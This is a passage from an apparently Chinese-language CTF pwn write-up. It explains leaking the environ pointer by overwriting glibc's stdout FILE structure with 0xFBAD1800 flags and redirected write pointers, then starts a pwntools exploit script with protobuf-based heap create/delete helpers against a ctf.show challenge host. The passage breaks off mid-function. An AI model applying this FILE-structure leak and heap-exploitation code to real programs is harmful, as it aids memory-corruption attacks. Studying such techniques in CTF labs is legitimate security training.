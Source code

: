```c
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
我们将stdout修改成这样
```python
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
```
0xFBAD1800是_IO_MAGIC，由libc定义，大部分都是这个值
我们将_IO_write_base修改为environ，将_IO_write_ptr改为environ+8
之后便会泄露environ的值

### environ

### exp
```python
from pwn import *
import heybro_pb2

#p = process("./pwn")
p = remote("pwn.challenge.ctf.show",28127)
elf = ELF("./pwn")
remote_libc = ELF("./libc.so.6")
local_libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = remote_libc

context.log_level = 'debug'
#context.terminal = ['tmux','splitw','-h']

def create(idx,content):
    data = heybro_pb2.heybro()
    data.whattodo = 1
    data.whatcon = content
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
```